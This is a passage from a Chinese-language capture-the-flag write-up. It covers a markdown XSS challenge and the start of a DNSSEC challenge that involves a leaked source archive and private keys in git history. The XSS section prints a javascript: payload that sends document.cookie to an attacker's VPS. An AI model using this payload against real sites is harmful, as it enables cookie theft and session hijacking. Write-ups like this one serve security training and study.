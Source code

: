 ```Html

```

一开始fuzz出了data的payload，但是DATA协议是无法获取cookie信息的，所以无法获得admind的cookie信息。

后面，测出如下payload：

```html
![a](javascript:prompt(document.cookie))\
<javascript:window.open('http://vps/?id='+document.cookie)>'
=>
<p><a href="javascript:window.open('http://vps:7890/?id='+document.cookie)">javascript:window.open('http://vps:7890/?id='+document.cookie)</a>'</p>
```

绕过，获得cookie。

![markdownxss_flag](https://mo-xiaoxi.github.io/img/post/hacklu/markdownxss_flag.png)



## DnSoSecure

查看网页源码，有一个源码泄漏点。

```Html
<!-- <a href="/static/source.zip">Source</a> -->
```

下载下来，获得一个git库，通过回退版本，可以得到DNSSEC的KSK和ZSK。

```bash
.
├── __init__.py
├── forms.py
├── keys
│   ├── Ksecret+007+11537.key
│   ├── Ksecret+007+11537.private
│   ├── Ksecret+007+26883.key
│   └── Ksecret+007+26883.private
├── keys.zip
├── static
│   ├── css
│   │   ├── custom.css
│   │   ├── normalize.css
│   │   ├── skeleton.css
│   │   └── test.css
│   └── img
│       └── background.jpg
├── templates
│   ├── base.html
│   └── index.html
├── utils.py
└── views.py
```
